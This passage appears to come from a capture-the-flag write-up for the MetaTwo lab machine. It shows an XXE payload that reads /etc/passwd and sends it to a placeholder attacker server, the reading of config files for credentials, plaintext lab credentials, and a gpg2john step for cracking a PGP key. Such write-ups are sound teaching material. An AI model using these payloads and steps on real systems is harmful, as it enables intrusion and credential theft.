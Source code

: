 ```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Then start the web server on the specified port and download the malicious .wav file and get the encrypted /etc/passwd:

![Desktop View](https://3nnl.github.io/metatwo/static\_4.avif)

Decode it:

![Desktop View](https://3nnl.github.io/metatwo/static\_5.avif)

Got `/etc/nginx/sites-enabled/default` by the same way and find out root dir for web-application:

![Desktop View](https://3nnl.github.io/metatwo/static\_6.avif)

From `/var/www/metapress.htb/blog/wp-config.php` got the credentials for ftp:

![Desktop View](https://3nnl.github.io/metatwo/static\_7.avif)

Connect vie ftp and in file `mailer/send_mail.php` got SSH credentials and user flag:

```php
# Check the content of send_email.php
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;
```

![Desktop View](https://3nnl.github.io/metatwo/static\_10.avif)

### Privelege Escalation <a href="#privelege-escalation" id="privelege-escalation"></a>

On the server, the console password manager passpie is set up, which has a key for root, encrypted with a PGP key, which is located in the directory .passpie/:

{% embed url="https://github.com/marcwebbie/passpie" %}

![Desktop View](https://3nnl.github.io/metatwo/static\_11.avif)

![Desktop View](https://3nnl.github.io/metatwo/static\_12.avif)

We take the private key on our machine and convert it to a convenient format by the command:

```bash
$ gpg2john passpie.key > key.john

Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::PASSPIE_PGP_KEY
```
